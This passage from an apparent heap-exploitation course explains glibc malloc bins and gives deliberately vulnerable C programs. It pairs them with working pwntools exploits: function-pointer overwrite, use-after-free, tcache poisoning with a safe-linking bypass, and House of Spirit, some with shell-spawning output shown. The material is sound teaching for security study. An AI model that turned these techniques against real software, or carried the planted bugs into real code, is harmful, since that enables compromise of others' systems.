│ If NO:  Continue to fastbin/regular bins                        │
└─────────────────────────────────────────────────────────────────┘
          │
          ▼
┌─────────────────────────────────────────────────────────────────┐
│ Step 3: Fastbin or Consolidation                                │
│ ─────────────────────────────────────────────────────────────── │
│ Small chunk (≤0x80)?  → Push to fastbin (no coalescing)         │
│ Larger chunk?         → Try to coalesce with neighbors          │
│                       → Put in unsorted bin                     │
└─────────────────────────────────────────────────────────────────┘
          │
          ▼
┌─────────────────────────────────────────────────────────────────┐
│ Step 4: Coalescing (Consolidation)                              │
│ ─────────────────────────────────────────────────────────────── │
│ Check PREV_INUSE flag:                                          │
│   If 0: Previous chunk is free → merge backward                 │
│                                                                 │
│ Check next chunk's PREV_INUSE flag:                             │
│   If 0: Next chunk is free → merge forward                      │
│                                                                 │
│ Update size field of merged chunk                               │
│ This is where unlink() gets called! (exploit target)            │
└─────────────────────────────────────────────────────────────────┘
```

#### Bin Organization (Visual)

```text
                          HEAP BINS OVERVIEW
┌─────────────────────────────────────────────────────────────────┐
│                                                                 │
│  TCACHE (glibc 2.26+) - Per-thread, fastest                     │
│  ═══════════════════════════════════════                        │
│  tcache_bins[0]  → 0x20 → 0x20 → 0x20 → NULL  (max 7 per bin)   │
│  tcache_bins[1]  → 0x30 → 0x30 → NULL                           │
│  tcache_bins[2]  → NULL                                         │
│  ...             → (64 bins total, sizes 0x20-0x410)            │
│                                                                 │
│  FASTBINS - Small chunks, no coalescing                         │
│  ════════════════════════════════════════                       │
│  fastbins[0]  → 0x20 → 0x20 → NULL  (singly linked, LIFO)       │
│  fastbins[1]  → 0x30 → NULL                                     │
│  ...          → (up to 0x80 bytes)                              │
│                                                                 │
│  UNSORTED BIN - Recently freed, temp storage                    │
│  ═══════════════════════════════════════════                    │
│  unsorted_bin ⟷ chunk ⟷ chunk ⟷ (circular doubly-linked)        │
│                                                                 │
│  SMALL BINS - Exact size match (62 bins)                        │
│  ═══════════════════════════════════════                        │
│  small_bins[2]  ⟷ 0x20 ⟷ 0x20 ⟷ (doubly linked, FIFO)           │
│  small_bins[3]  ⟷ 0x30 ⟷ (doubly linked)                        │
│  ...            → (sizes 0x20 - 0x3F0)                          │
│                                                                 │
│  LARGE BINS - Size ranges, sorted (63 bins)                     │
│  ═══════════════════════════════════════                        │
│  large_bins[0] ⟷ 0x400 ⟷ 0x420 ⟷ (sorted by size)               │
│  ...           → (sizes 0x400+)                                 │
│                                                                 │
└─────────────────────────────────────────────────────────────────┘
```

# In pwndbg:
pwndbg> heap                    # Overview of heap state
pwndbg> bins                    # Show all bins (tcache, fast, unsorted, etc.)
pwndbg> vis_heap_chunks         # Visual heap layout (VERY useful!)
pwndbg> malloc_chunk <addr>     # Inspect specific chunk

# In GEF:
gef> heap chunks                # List all chunks
gef> heap bins                  # Show bin state
gef> heap arenas                # Show arena info

# Watchpoints for debugging
pwndbg> watch *(size_t*)<chunk_addr>   # Break when chunk modified
```

**Example Debugging Session**:

```bash
cd ~/exploit

# Create test program
cat > heap_debug.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>

int main() {
    char *a = malloc(0x20);
    char *b = malloc(0x20);
    char *c = malloc(0x20);

    printf("a=%p b=%p c=%p\n", a, b, c);

    free(a);
    free(b);
    free(c);

    char *d = malloc(0x20);  // What happens here?
    printf("d=%p\n", d);

    return 0;
}
EOF
gcc -g -fcf-protection=none heap_debug.c -o heap_debug

# Debug
gdb ./heap_debug

pwndbg> break 9
pwndbg> break 15
pwndbg> break 17
pwndbg> run

# At breakpoint 1 (after malloc calls):
pwndbg> heap          # Show heap info
pwndbg> vis           # Visualize heap chunks (or 'heap chunks')

# d gets the LAST freed chunk (LIFO from tcache)
```

**Key Insight for Exploitation**:

```text
┌─────────────────────────────────────────────────────────────────┐
│ LIFO Behavior = Predictable Allocation Order                    │
│ ─────────────────────────────────────────────────────────────── │
│                                                                 │
│ If you can:                                                     │
│   1. Free a chunk                                               │
│   2. Corrupt the freed chunk's fd pointer                       │
│   3. malloc() twice                                             │
│                                                                 │
│ Then:                                                           │
│   - First malloc returns the freed chunk                        │
│   - Second malloc returns YOUR CONTROLLED ADDRESS!              │
│                                                                 │
│ This is the basis for: tcache poisoning, fastbin dup            │
└─────────────────────────────────────────────────────────────────┘
```

### Heap Overflow Vulnerability

**Vulnerable Program** (vuln_heap.c):

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

typedef struct {
    char name[32];
    void (*print_func)(char *);
} User;

void print_user(char *name) {
    printf("User: %s\n", name);
}

void admin_function(char *name) {
    printf("Admin access granted to %s\n", name);
    // Note: system() works here because we're calling it directly via
    // function pointer, not via ROP. CET only blocks ROP-style calls.
    system("/bin/sh");
}

int main(int argc, char **argv) {
    // Allocate two structs
    User *user1 = malloc(sizeof(User));
    User *user2 = malloc(sizeof(User));

    // Initialize
    user1->print_func = print_user;
    user2->print_func = print_user;

    // Vulnerable: read() allows null bytes and has no bounds check!
    printf("Enter name: ");
    fflush(stdout);
    read(0, user1->name, 128);  // Buffer is only 32 bytes!

    // Call function pointers
    user1->print_func(user1->name);
    user2->print_func(user2->name);

    free(user1);
    free(user2);

    return 0;
}
```

**Compile (AMD64)**:

```bash
make disabled SOURCE=vuln_heap.c BINARY=vuln_heap
#gcc -g -O0 -fno-stack-protector -no-pie -fcf-protection=none vuln_heap.c -o vuln_heap
```

**Vulnerability Analysis**:

```text
Heap layout after allocations (AMD64):
┌─────────────────────────┐
│ Chunk metadata (user1)  │ (16 bytes on AMD64)
├─────────────────────────┤
│ user1->name[32]         │ ← strcpy writes here
├─────────────────────────┤
│ user1->print_func (8B)  │ ← Can be overwritten!
├─────────────────────────┤
│ Chunk metadata (user2)  │
├─────────────────────────┤
│ user2->name[32]         │
├─────────────────────────┤
│ user2->print_func (8B)  │
└─────────────────────────┘

Overflow scenario:
- read() into user1->name with 40+ bytes
- Overwrites user1->print_func
- Can redirect execution!
- Note: read() allows null bytes (unlike strcpy)!
```

### Exploiting Function Pointer Overwrite

**Exploit Strategy**:

1. Overflow `user1->name` (32 bytes)
2. Overwrite `user1->print_func` with address of `admin_function`
3. When `user1->print_func()` is called, get shell

**Find admin_function address**:

```bash
objdump -d vuln_heap | grep admin_function

# Or in GDB:
gdb ./vuln_heap
(gdb) info functions admin
```

**Exploit (AMD64)**:

```python
#!/usr/bin/env python3
#~/exploit/exploit_heap.py
from pwn import *

binary = './vuln_heap'
elf = ELF(binary)
context.binary = elf  # Sets AMD64!

# Find admin_function address
admin_addr = elf.symbols['admin_function']
log.info(f"admin_function @ {hex(admin_addr)}")

# read() allows null bytes unlike strcpy()!
payload = b"A" * 32              # Fill user1->name
payload += p64(admin_addr)       # Overwrite user1->print_func (8 bytes!)

# Exploit via stdin (read() handles null bytes)
p = process(binary, stdin=PTY, stdout=PTY)
p.recvuntil(b'Enter name: ')
p.send(payload)
p.interactive()
```

**Test**:

```bash
cd ~/exploit
source ~/crash_analysis_lab/.venv/bin/activate
python3 exploit_heap.py

# Admin access granted to AAAAA...
$ id
uid=1000(user) gid=1000(user)
```

> [!NOTE]
> **Why does `system()` work here but not in ROP chains?**
>
> Intel CET (SHSTK/IBT) blocks **indirect jumps/calls via corrupted return addresses** (ROP).
> But function pointer overwrites are **direct calls** - the program legitimately calls
> through a pointer, which CET allows. This is why heap exploits targeting function
> pointers still work on modern libc, while stack-based ROP to `system()` fails.
>
> **When CET blocks you:**
>
> - ROP chains returning to `system()` via stack corruption
> - ret2libc attacks using gadgets
>
> **When CET does NOT block you:**
>
> - Function pointer overwrites (heap, GOT if writable)
> - Direct control flow hijack to existing functions
> - One_gadget (uses internal code paths that satisfy CET)

### Heap Metadata Corruption

**Unlink Exploit** (Classic technique):

**Concept**:

- Corrupt free chunk metadata (fd/bk pointers)
- When chunk is unlinked from bin, write arbitrary address
- Achieve write-what-where primitive

**Vulnerable Code** (unlink_vuln.c):

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    char *a, *b, *c;

    // Allocate three chunks
    a = malloc(100);
    b = malloc(100);
    c = malloc(100);

    printf("a = %p\n", a);
    printf("b = %p\n", b);
    printf("c = %p\n", c);

    // Read input into 'a' (vulnerable)
    printf("Enter data: ");
    gets(a);  // No bounds check!

    // Free chunks (triggers unlink)
    free(b);
    free(a);

    // Allocate again (use corrupted metadata)
    char *d = malloc(100);
    strcpy(d, "Controlled data");

    return 0;
}
```

**Exploit Technique**:

1. Overflow chunk 'a' into chunk 'b'
2. Fake chunk 'b' metadata:
   - Set prev_size to overflow into 'a'
   - Set size with prev_inuse=0 (fake free)
   - Set fd/bk to target addresses
3. Free chunk 'b'
4. Unlink writes: _(fd) = bk and _(bk) = fd
5. Arbitrary write achieved!

**Modern Protections**:

- Safe unlinking (glibc 2.3.4+)
- Checks: `fd->bk == chunk && bk->fd == chunk`
- Makes classic unlink harder

**Legacy Tcache Poisoning** (glibc 2.27-2.31, no safe-linking):

This is the foundational technique to learn before tackling modern bypasses:

```c
/* tcache_poison_legacy.c - Works on glibc < 2.32 (Ubuntu 20.04) */
// make disabled SOURCE=tcache_poison_legacy.c BINARY=tcache_poison_legacy
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

int main() {
    setbuf(stdout, NULL);
    uint64_t target = 0;
    printf("Target at %p, value: %lu\n", &target, target);

    void *a = malloc(0x20);
    void *b = malloc(0x20);  // Prevent consolidation
    printf("Chunk A: %p\n", a);
    printf("Chunk B: %p\n", b);

    free(a);
    // tcache[0x30] -> A -> NULL

    // VULNERABILITY: Use-after-free or buffer overflow to corrupt A's fd pointer
    // In a real program, this would be via:
    // - UAF: writing to freed chunk A
    // - Overflow: overflowing from another chunk into A
    printf("Enter corruption data (hex address of target - 0x10): ");
    char input[32];
    fgets(input, sizeof(input), stdin);

    // Corrupt the fd pointer of freed chunk A
    uint64_t corrupt_addr;
    sscanf(input, "%lx", &corrupt_addr);
    *(uint64_t*)a = corrupt_addr;  // This is the vulnerability!

    malloc(0x20);  // Returns A
    void *c = malloc(0x20);  // Returns target!
    *(uint64_t*)c = 0xdeadbeef;
    printf("Target after: 0x%lx\n", target);
    return 0;
}
```

**For testing on Ubuntu 24.04 (glibc 2.39 with safe-linking)**:

```c
/* tcache_poison_modern.c - Demonstrates safe-linking protection */
// make disabled SOURCE=tcache_poison_modern.c BINARY=tcache_poison_modern
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <assert.h>

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    printf("Demonstrating correct tcache poisoning on glibc 2.39 with safe-linking\n\n");

    // Create aligned target on stack
    size_t stack_var[0x10];
    size_t *target = NULL;

    // Find properly aligned target
    for(int i = 0; i < 0x10; i++) {
        if(((long)&stack_var[i] & 0xf) == 0) {
            target = &stack_var[i];
            break;
        }
    }
    assert(target != NULL);

    *target = 0;  // Initialize
    printf("Target address: %p, value: %lu\n", target, *target);

    printf("Allocating buffers...\n");
    intptr_t *a = malloc(128);
    printf("malloc(128): %p\n", a);
    intptr_t *b = malloc(128);
    printf("malloc(128): %p\n", b);

    printf("Freeing buffers to build tcache chain...\n");
    free(a);
    free(b);

    printf("Now the tcache list has [ %p -> %p ].\n", b, a);

    // This is the correct safe-linking formula for glibc 2.39
    printf("Corrupting b's fd pointer with safe-linking...\n");
    printf("Safe-linking key: 0x%lx (b >> 12)\n", (long)b >> 12);
    printf("Target: %p\n", target);
    printf("Corrupted value: 0x%lx\n", (long)target ^ ((long)b >> 12));

    // VULNERABILITY: Use-after-free to corrupt fd pointer
    b[0] = (intptr_t)((long)target ^ ((long)b >> 12));

    printf("Now the tcache list has [ %p -> %p ].\n", b, target);

    printf("Draining tcache:\n");
    printf("1st malloc(128): %p\n", malloc(128));
    printf("Now the tcache list has [ %p ].\n", target);

    intptr_t *c = malloc(128);
    printf("2nd malloc(128): %p\n", c);

    if ((long)target == (long)c) {
        printf("SUCCESS! We got control of %p\n", c);
        *c = 0xdeadbeef;
        printf("Target value after corruption: 0x%lx\n", *target);
        printf("tcache poisoning successful!\n");
    } else {
        printf("Failed. Expected %p, got %p\n", target, c);
    }

    return 0;
}
```

**Why This Works** (glibc 2.39 safe-linking bypass):

```text
Before corruption:                After corruption:
tcache[0x80] → B → A → NULL       tcache[0x80] → B → TARGET

Key derivation:                   Safe-linking formula:
key = chunk_addr >> 12             corrupted_fd = target ^ (chunk >> 12)

malloc(128):                       malloc(128):
  Returns B, tcache → A              Returns B, tcache → TARGET

malloc(128):                       malloc(128):
  Returns A                          Returns TARGET! (arbitrary alloc)
```

**Critical Requirements for glibc 2.39+**:

1. **Safe-linking key**: `key = chunk_address >> 12` (simple right shift)
2. **Target alignment**: Must be 0x10-aligned to avoid "unaligned tcache chunk detected"
3. **Corruption position**: Target the SECOND tcache entry (B), not the first (A)
4. **Proper chaining**: Free A then B, corrupt B's fd, drain A, get target

**Real-World Impact**:

- **Bypasses modern glibc protections**: Works on Ubuntu 24.04 (glibc 2.39)
- **Arbitrary write**: Achieves write-what-where primitive
- **ASLR bypass**: No need for leaks if you have a known target
- **Reliable**: High success rate when conditions are met

### glibc 2.35+ / Ubuntu 24.04

**Key Changes in Modern glibc**:

| Version | Change                            | Impact                                     | Ubuntu Version |
| ------- | --------------------------------- | ------------------------------------------ | -------------- |
| 2.32+   | Tcache pointer XOR (safe-linking) | XOR key from chunk addr (chunk_addr >> 12) | 22.04+         |
| 2.34+   | `__malloc_hook` **removed**       | Hook overwrite attacks dead                | 22.04+         |
| 2.35+   | Enhanced tcache key checks        | Double-free detection improved             | 23.04+         |
| 2.37+   | `global_max_fast` type change     | Fastbin size attacks limited               | 23.10+         |
| 2.38+   | `_IO_list_all` checks tightened   | FSOP attacks significantly harder          | 24.04+         |
| 2.39+   | Additional largebin checks        | Largebin attack constraints                | 24.04          |

**Safe-Linking Explained (glibc 2.32+)**:

Safe-linking protects singly-linked list pointers (tcache and fastbin) using XOR mangling:

```c
// ACTUAL glibc 2.39 formula (simplified):
// stored_fd = (chunk_address >> 12) XOR target_pointer
// To decode: target = stored_fd XOR (chunk_address >> 12)

// In our working example:
key = chunk_b_address >> 12          // Simple right shift by 12
corrupted_fd = target_address ^ key   // XOR with target
```

**Bypassing Safe-Linking** (working method for glibc 2.39):

```python

# Step 1: Get chunk address (from freed chunk you control)
chunk_addr = 0x1976c330  # Address of chunk B in our example

# Step 2: Calculate XOR key (simple right shift!)
xor_key = chunk_addr >> 12  # 0x1976c330 >> 12 = 0x1976c

# Step 3: Forge tcache entry pointing to target
target_addr = 0x7ffda6be06e0  # Our aligned stack target
fake_fd = target_addr ^ xor_key  # 0x7ffda6be06e0 ^ 0x1976c

# Step 4: Write fake_fd to freed chunk's fd field
chunk_b[0] = fake_fd  # Use-after-free corruption

# Step 5: malloc() twice - second returns target!
malloc(128)  # Returns chunk B
malloc(128)  # Returns our target address!
```

**Key Insights from Working Implementation**:

1. **No heap leak needed**: The key is derived from the chunk you're corrupting
2. **Simple formula**: Just `chunk_addr >> 12`, not complex heap base calculations
3. **Alignment critical**: Target must be 0x10-aligned or glibc aborts
4. **Position matters**: Corrupt the SECOND tcache entry, not the first

> [!NOTE]  
> **Exception**: `tcache_perthread_struct` counts are NOT protected by safe-linking!  
> This enables advanced techniques like House of Water for leakless attacks.

**Modern Techniques Still Working**:

1. **Tcache Stash Unlink (TSU)**: Smallbin → tcache manipulation
2. **House of Lore variants**: Smallbin bk pointer corruption
3. **Largebin attacks**: Still viable for arbitrary write
4. **Tcache struct hijack**: Control allocation via `tcache_perthread_struct`

**Practicing Classic Heap Techniques (Docker Setup)**:

For learning classic heap exploitation without modern hardening:

```bash

# Docker container with older glibc for learning
docker run -it --rm --cap-add=SYS_PTRACE --security-opt seccomp=unconfined \
    ubuntu:20.04 /bin/bash

# Inside container:
apt update && apt install -y build-essential gdb python3-pip
pip3 install pwntools

# Clone how2heap for examples
cd ~/tuts
git clone --depth 1 https://github.com/shellphish/how2heap
cd how2heap

#### Exercise: Function Pointer Overwrite

1. Compile vuln_heap.c
2. Find admin_function address
3. Build exploit to overwrite print_func
4. Get shell

#### Exercise: Heap Spray

1. Allocate many chunks
2. Fill with shellcode
3. Trigger vulnerability to jump into spray
4. Execute shellcode

#### Exercise: Tcache Poisoning (Modern)

1. Study how2heap/tcache_poisoning.c
2. Understand tcache bin structure
3. Corrupt fd pointer
4. Allocate at arbitrary address

**Success Criteria**:

- Function pointer overwrite works
- Heap spray successful
- Understand modern heap protections
- Can explain tcache attack surface

### Key Takeaways

1. **Heap is more complex than stack**: Multiple allocator structures
2. **Metadata corruption is powerful**: Enables write-what-where
3. **Modern heaps have protections**: Safe unlinking, tcache checks, safe-linking (2.32+)
4. **Function pointers are targets**: Easy to exploit if reachable - **bypasses CET!**
5. **Heap spray can bypass ASLR**: Fill memory with shellcode
6. **CET doesn't block function pointer overwrites**: Unlike ROP, direct calls work
7. **Modern libc removed `__malloc_hook`**: Can't use hook overwrites anymore (2.34+)

### Discussion Questions

1. Why is heap exploitation more complex than stack overflow?
2. How do safe unlinking checks prevent classic unlink attacks?
3. What makes tcache a good target for exploitation?
4. How would you detect heap corruption at runtime?

## Day 4: Heap Exploitation Part 2 – Modern Techniques

- **Goal**: Master modern heap exploitation: tcache poisoning with safe-linking bypass, House of Botcake, House of Water, House of Tangerine.
- **Activities**:
  - _Reading_:
    - **Foundation**:
      - [Tcache House of Spirit](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/tcache_house_of_spirit.c) - simplest, no next chunk validation
      - [Tcache Metadata Poisoning](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/tcache_metadata_poisoning.c) - easy if metadata accessible
    - **Core Techniques**:
      - [Tcache Poisoning](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/tcache_poisoning.c) - with safe-linking bypass
      - [Fastbin Dup](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/fastbin_dup.c) - classic double-free
      - [House of Botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/house_of_botcake.c) - double-free bypass (most practical)
      - [Overlapping Chunks](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/overlapping_chunks.c) - chunk overlap via size corruption
    - **Advanced**:
      - [Large Bin Attack](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/large_bin_attack.c) - arbitrary write (heap ptr)
      - [Fastbin Reverse Into Tcache](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/fastbin_reverse_into_tcache.c) - write heap ptr to stack
      - [Unsafe Unlink](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/unsafe_unlink.c) - classic unlink with modern constraints
    - **Expert**:
      - [House of Water](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/house_of_water.c) - UAF to tcache metadata control
      - [House of Tangerine](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/house_of_tangerine.c) - no free() needed!
      - [House of Einherjar](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/house_of_einherjar.c) - backward consolidation
      - [Safe-Linking Double Protect Bypass](https://github.com/shellphish/how2heap/blob/master/glibc_2.41/safe_link_double_protect.c) - blind safe-linking bypass
  - _Online Resources_:
    - [how2heap Repository (glibc_2.41)](https://github.com/shellphish/how2heap/tree/master/glibc_2.41) - Practice modern techniques
    - [Malloc Internals](https://sourceware.org/glibc/wiki/MallocInternals)
  - _Tool Setup_:
    - Compile with `-no-pie -Wl,-z,norelro` for easier practice
    - Use pwndbg `heap` and `bins` commands constantly
  - _Exercise_ (follow order for progressive learning):
    1. Start with Use-After-Free patterns
    2. Exploit tcache House of Spirit (easiest tcache attack)
    3. Exploit tcache poisoning with safe-linking bypass
    4. Exploit House of Botcake for double-free scenarios
    5. Attempt House of Water for advanced UAF exploitation

### Deliverables

- **Environment**: glibc version recorded (`ldd --version`) and which how2heap example(s) you used
- **Reproduction**: at least one modern technique reproduced end-to-end (e.g., tcache poisoning with safe-linking)
- **Primitive proof**: demonstrated controlled allocation to a chosen address (and explained the safe-linking XOR key)
- **Notes**: minimal writeup showing the exact leak used (heap/libc) and how it enables the technique

### Use-After-Free Exploitation (Foundation)

UAF is a **type** of vulnerability; tcache/fastbin poisoning is the **technique** to exploit it.

**Classic UAF Pattern**:

```c
// 1. Allocate object with function pointer
Object *obj = malloc(sizeof(Object));
obj->callback = normal_func;

// 2. Free the object (but keep the pointer)
free(obj);
// obj is now a DANGLING POINTER

// 3. Allocate new object of same size (gets same memory)
Evil *evil = malloc(sizeof(Evil));
evil->fake_callback = shell_func;

// 4. Use the dangling pointer (calls attacker's function!)
obj->callback();  // BOOM - calls shell_func
```

**UAF Heap Feng Shui**:

The key to reliable UAF exploitation is **controlling what gets allocated in the freed memory**.

```text
Heap Feng Shui Strategy:
═══════════════════════════════════════════════════════════════════

Step 1: Understand allocation sizes
        Target object: 0x40 bytes (User struct)
        Attacker input: Can we create a 0x40 byte allocation?

Step 2: Prime the heap
        - Free target object
        - Ensure tcache/fastbin has space

Step 3: Spray controlled data
        - Allocate objects of same size class
        - Fill with attacker-controlled content

Step 4: Trigger UAF
        - Use dangling pointer
        - Access now-controlled memory
```

**Interactive UAF Target** (`vuln_uaf.c`):

```c
// ~/exploit/vuln_uaf.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

typedef struct {
    char name[32];
    void (*callback)(void);
} Object;

Object *obj = NULL;
char *spray_buf = NULL;

void normal_func(void) {
    printf("Normal callback executed\n");
}

void admin_func(void) {
    printf("Admin function triggered! Spawning shell...\n");
    system("/bin/sh");
}

void menu(void) {
    printf("\n1. create\n2. delete\n3. use\n4. spray\n5. exit\n> ");
    fflush(stdout);
}

int main(void) {
    char cmd[16];
    setvbuf(stdout, NULL, _IONBF, 0);

    while (1) {
        menu();
        if (read(0, cmd, sizeof(cmd)) <= 0) break;

        if (strncmp(cmd, "create", 6) == 0 || cmd[0] == '1') {
            obj = malloc(sizeof(Object));
            obj->callback = normal_func;
            printf("name: ");
            fflush(stdout);
            read(0, obj->name, 31);
            printf("Object created at %p\n", obj);
        }
        else if (strncmp(cmd, "delete", 6) == 0 || cmd[0] == '2') {
            if (obj) {
                free(obj);
                // BUG: obj not set to NULL - dangling pointer!
                printf("Object freed (but pointer kept!)\n");
            }
        }
        else if (strncmp(cmd, "use", 3) == 0 || cmd[0] == '3') {
            if (obj) {
                printf("Calling callback...\n");
                obj->callback();  // UAF: uses freed memory!
            }
        }
        else if (strncmp(cmd, "spray", 5) == 0 || cmd[0] == '4') {
            // Allocate same size as Object to reclaim freed chunk
            spray_buf = malloc(sizeof(Object));
            printf("data: ");
            fflush(stdout);
            read(0, spray_buf, sizeof(Object));
            printf("Spray allocated at %p\n", spray_buf);
        }
        else if (strncmp(cmd, "exit", 4) == 0 || cmd[0] == '5') {
            break;
        }
    }
    return 0;
}
```

**Compile**:

```bash
cd ~/exploit
make disabled SOURCE=vuln_uaf.c BINARY=vuln_uaf
#gcc -g -O0 -fno-stack-protector -no-pie -fcf-protection=none vuln_uaf.c -o vuln_uaf
```

**Complete UAF Exploit Example**:

```python
#!/usr/bin/env python3

# ~/exploit/exploit_uaf.py
"""
UAF Exploit demonstrating heap feng shui
Target: vuln_uaf with create/delete/use/spray commands
"""
from pwn import *

context.arch = 'amd64'
binary = './vuln_uaf'
elf = ELF(binary)

def create(p, name):
    p.sendlineafter(b'> ', b'1')
    p.sendafter(b'name: ', name)

def delete(p):
    p.sendlineafter(b'> ', b'2')

def use(p):
    p.sendlineafter(b'> ', b'3')

def spray(p, data):
    """Allocate same-size chunk with controlled data"""
    p.sendlineafter(b'> ', b'4')
    p.sendafter(b'data: ', data)

def exploit():
    p = process(binary)

    # Find target function
    win = elf.symbols['admin_func']
    log.info(f"admin_func @ {hex(win)}")

    # Step 1: Create legitimate object
    create(p, b'AAAA')

    # Step 2: Free it (creates dangling pointer)
    delete(p)

    # Step 3: Spray to reclaim freed memory
    # Object struct: char name[32] + void (*callback)(void)
    payload = b'X' * 32  # Fill name field
    payload += p64(win)  # Overwrite callback pointer
    spray(p, payload)

    # Step 4: Use dangling pointer (calls our controlled callback)
    use(p)

    p.interactive()

if __name__ == '__main__':
    exploit()
```

**Test**:

```bash
cd ~/exploit
python3 exploit_uaf.py
```

**Test Results**:

```text
[+] Starting local process './vuln_uaf': pid 2308
[*] admin_func @ 0x4011bc
[*] Switching to interactive mode
Calling callback...
Admin function triggered! Spawning shell...
$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),101(lxd)
$ exit
```

**Exploit Success**:

- `admin_func` found at static address `0x4011bc` (No PIE)
- UAF exploit successfully overwrote callback pointer
- Shell spawned with user privileges
- Interactive shell obtained, confirming full control

**Why This Works**:

1. **UAF Pattern**: `obj` pointer isn't NULLed after `free()`, creating a dangling pointer
2. **Heap Reuse**: `spray()` allocates same-sized chunk (`sizeof(Object)`) that reclaims freed memory
3. **Controlled Overwrite**: Spray payload overwrites `callback` pointer with `admin_func` address
4. **Trigger**: `use()` calls `obj->callback()` which now points to attacker-controlled function
5. **No ASLR Bypass Needed**: Binary has `No PIE`, so `admin_func` address is static

**Key Insight**: UAF exploitation is about **controlling what gets allocated in freed memory** and then **using the dangling pointer** to access attacker-controlled data.

### Tcache House of Spirit (glibc 2.41)

Key insight from `malloc.c`: `tcache_put()` is called without checking if next chunk's size and prev_inuse are sane (search for "invalid next size" and "double free or corruption" - those checks are bypassed).

```c
// ~/exploit/tcache_house_of_spirit.c
// Fake chunk free without next chunk validation
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main() {
    setbuf(stdout, NULL);
    malloc(1);  // Initialize heap

    // Fake chunk region on stack (must be 16-byte aligned!)
    unsigned long long fake_chunks[10] __attribute__((aligned(0x10)));

    /* Requirements for fake chunk:
     * 1. Size must be tcache range: chunk.size <= 0x410 (malloc arg <= 0x408)
     * 2. PREV_INUSE (bit 0): ignored by tcache free
     * 3. IS_MMAPPED (bit 1): must be 0 (causes problems)
     * 4. NON_MAIN_ARENA (bit 2): must be 0 (causes problems)
     * 5. Region must be 16-byte aligned
     */
    fake_chunks[1] = 0x40;  // Size field (0x30-0x38 requests round to 0x40)

    printf("Fake chunk size at: %p\n", &fake_chunks[1]);
    printf("Fake chunk data at: %p\n", &fake_chunks[2]);

    // Simulate pointer overwrite vulnerability
    unsigned long long *a = &fake_chunks[2];  // Points to "user data" of fake chunk

    // Free the fake chunk - goes to tcache without validation!
    free(a);

    // Next malloc of matching size returns our fake region
    void *b = malloc(0x30);
    printf("malloc(0x30) returned: %p\n", b);

    assert((long)b == (long)&fake_chunks[2]);
    printf("SUCCESS: Got allocation in fake chunk region!\n");
    return 0;
}
```

**Build and Run**:

```bash
cd ~/exploit
gcc -g -O0 -no-pie -Wl,-z,norelro tcache_house_of_spirit.c -o tcache_house_of_spirit
./tcache_house_of_spirit
```

**Test Results**:

```text
Fake chunk size at: 0x7ffea7295d98
Fake chunk data at: 0x7ffea7295da0
malloc(0x30) returned: 0x7ffea7295da0
SUCCESS: Got allocation in fake chunk region!
```

**Attack Success**:

- Fake chunk created on stack at `0x7ffea7295d98` (size field)
- Data area at `0x7ffea7295da0` (8 bytes later due to chunk header)
- `malloc(0x30)` returns our fake chunk data area
- Stack memory successfully allocated via heap allocator

**Why This Works**:

1. **No Next Chunk Validation**: Unlike fastbin, tcache `free()` doesn't validate the next chunk's size field
2. **Simple Fake Chunk**: Only need size field (0x40) in `fake_chunks[1]`, no complex metadata
3. **Pointer Arithmetic**: `a = &fake_chunks[2]` points to "user data" area of fake chunk
4. **Alignment**: `__attribute__((aligned(0x10)))` ensures 16-byte alignment for modern glibc
5. **Size Range**: 0x40 is valid tcache size (requests 0x30-0x38 round to 0x40)

**Warning Explained**: The compiler warning is expected - we're intentionally freeing stack memory as a fake chunk, which is the whole point of the attack!

**Why Tcache House of Spirit is Easier**:

| Aspect                | Original (Fastbin)       | Tcache Version    |
| --------------------- | ------------------------ | ----------------- |
| Next chunk validation | Required                 | **Not needed**    |
| Size constraints      | Fastbin range only       | Up to 0x410       |
| Complexity            | Must craft 2 fake chunks | Only 1 fake chunk |
| glibc version         | Works on older           | Works on 2.41     |

**Attack Pattern**:

1. Find/create writable region with controlled data
2. Set up fake size field (0x20-0x410 range, bits 1-2 = 0)
3. Ensure 16-byte alignment
4. Overwrite pointer to point to fake chunk's data region
5. free(corrupted_ptr) → fake chunk goes to tcache
6. malloc(matching_size) → returns your controlled region!

### Tcache Metadata Poisoning (Direct Metadata Control)

```c
// ~/exploit/tcache_metadata_poisoning.c
// Direct metadata control for arbitrary allocation
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

#define TCACHE_BINS 64
#define HEADER_SIZE 0x10

struct tcache_metadata {
    uint16_t counts[TCACHE_BINS];      // Number of chunks per bin
    void *entries[TCACHE_BINS];         // Head of each bin
};

int main() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    // Target MUST be 16-byte aligned for modern glibc!
    uint64_t stack_target[4] __attribute__((aligned(0x10)));
    stack_target[0] = 0x1337;
    printf("Target on stack: %p\n\n", stack_target);

    // Initialize heap and find metadata
    uint64_t *victim = malloc(0x10);
    printf("Victim chunk: %p\n", victim);

    // Metadata is at start of heap page
    struct tcache_metadata *metadata =
        (struct tcache_metadata *)((long)victim - HEADER_SIZE - sizeof(struct tcache_metadata));
    printf("Tcache metadata: %p\n\n", metadata);

    // VULNERABILITY: Direct write to metadata
    // Insert target into bin 1 (0x20 size class)
    metadata->counts[1] = 1;
    metadata->entries[1] = stack_target;

    // Allocate from bin 1
    uint64_t *evil = malloc(0x20);
    printf("Got allocation at: %p\n", evil);

    assert(evil == stack_target);
